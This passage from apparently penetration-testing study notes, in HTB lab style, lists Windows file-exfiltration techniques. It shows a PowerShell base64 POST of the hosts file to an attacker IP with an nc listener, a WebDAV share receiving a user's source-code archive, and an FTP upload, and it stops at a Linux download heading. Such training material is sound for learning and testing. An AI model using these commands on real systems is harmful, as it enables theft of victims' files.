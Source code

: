 <code class="invert">PowerShell Base64 Web Upload</code>
```powershell
PS C:\Users> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\Users> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64

# In the linux VM
redparrot@parrot~$ nc -lvnp 8000

# catch the base64 encoded data and decode it in linux
redparrot@parrot~$ echo <base64> | base64 -d -w 0 > hosts
```

<code class="invert">SMB Uploads</code>
```
redparrot@parrot~$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```cmd
# Connecting to the Webdav Share from Windows
C:\Users> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

<code class="invert">Uploading Files using SMB</code>
```
C:\Users> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\Users> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

<code class="invert">FTP Uploads</code>

```bash
redparrot@parrot~$ sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://<FTP_SERVER_IP>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### **Linux File Transfer Methods**
#### <span class="red-command">Downloading files from remote host to Linux</span>
<code class="invert">Web Downloads with Wget and cURL</code>
